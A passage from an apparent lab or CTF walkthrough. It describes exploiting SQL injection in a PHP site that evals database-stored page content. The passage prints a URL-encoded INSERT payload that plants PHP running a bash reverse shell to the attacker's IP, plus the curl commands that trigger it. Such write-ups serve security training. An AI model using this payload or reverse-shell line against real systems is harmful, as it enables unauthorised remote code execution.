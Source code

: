 I attempted to write some files, but it fails:

<figure><img src="../../../.gitbook/assets/image (3707).png" alt=""><figcaption></figcaption></figure>

So writing webshells won't work. When I looked at the code again, I saw that it was using `eval()` after the `get_page` function returns. This means that if we can somehow make the function return PHP code, it would be executed in `eval()`.&#x20;

{% embed url="https://stackoverflow.com/questions/23862873/can-you-sql-inject-a-php-variable-comparison" %}

We know that the database is called `webpages`, and that there are 2 columns in it called `page_data` and `route_string`. Using this knowledge, let's try `INSERT INTO` to get RCE.

I tried creating a new directory with one PHP payload on it:

{% code overflow="wrap" %}
```sql
";INSERT INTO webpages(route_string, page_data) VALUES ('/rev', 'echo shell_exec("bash -i >& /dev/tcp/192.168.45.227/80 0>&1");'); --

## after URL encoding
%22%3BINSERT%20INTO%20webpages%28route_string%2C%20page_data%29%20VALUES%20%28%27%2Frev%27%2C%20%27echo%20shell_exec%28%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.227%2F80%200%3E%261%22%29%3B%27%29%3B%20--
```
{% endcode %}

Then visit `index.php` with that payload and visit `/rev`.&#x20;

{% code overflow="wrap" %}
```bash
$ curl http://192.168.157.162/%22%3BINSERT%20INTO%20webpages%28route_string%2C%20page_data%29%20VALUES%20%28%27%2Frev%27%2C%20%27echo%20shell_exec%28%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.227%2F80%200%3E%261%22%29%3B%27%29%3B%20--

$ curl http://192.168.157.162/rev
```
{% endcode %}

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (2860).png" alt=""><figcaption></figcaption></figure>
